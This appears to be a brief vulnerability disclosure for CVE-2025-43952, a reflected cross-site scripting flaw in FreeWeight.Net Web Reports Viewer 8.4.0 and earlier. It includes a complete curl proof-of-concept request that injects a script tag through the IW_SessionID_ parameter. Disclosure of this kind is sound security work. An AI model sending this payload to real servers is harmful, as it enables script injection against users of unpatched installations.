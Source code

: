 # CVE-2025-43952
Cross-site scripting (reflected) vulnerability found in FreeWeight.Net Web Reports Viewer version v8.4.0 (440) allows an attacker to inject malicious scripts via the "IW_SessionID_" parameter.

# Affected Product & Version
FreeWeight.Net Web Reports Viewer <= 8.4.0 (440) </br>

Reference: www.mt.com/FreeWeighNet

# PoC
cURL command:
````
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: YOUR-INSTANCE-URL' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Origin: http://YOUR-INSTANCE-URL' -H $'Referer: http://YOUR-INSTANCE-URL/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: keep-alive' \
    -b $'IW_FreeWeighNetWebReportsViewer=0WldenfSkynrTS1nNy%7E27U3LKWy_5' \
    $'http://YOUR-INSTANCE-URL/$/callback?callback=IWPBSAVE.DoOnAsyncButtonClick&IWEDOLDPASSWORD=\'&IWPBSAVE=&IW_FormName=LoginChangePassword&IW_FormClass=TLoginChangePassword&IW_width=1523&IW_height=799&IW_Action=undefined&IW_ActionParam=&IW_Offset=&IW_SessionID_=0WldenfSkynrTS1nNy~27U3LKWy%7d%7d%7d%7dyokem%3cscript%3ealert(1)%3c%2fscript%3ex3j7bradj7d&IW_TrackID_=5&IW_WindowID_=&IW_AjaxID=17431348843161&IW_FormID_=undefined'
````

# Credits
This vulnerability was discovered by Manjyot Singh of Henkel Cyber Security Team.
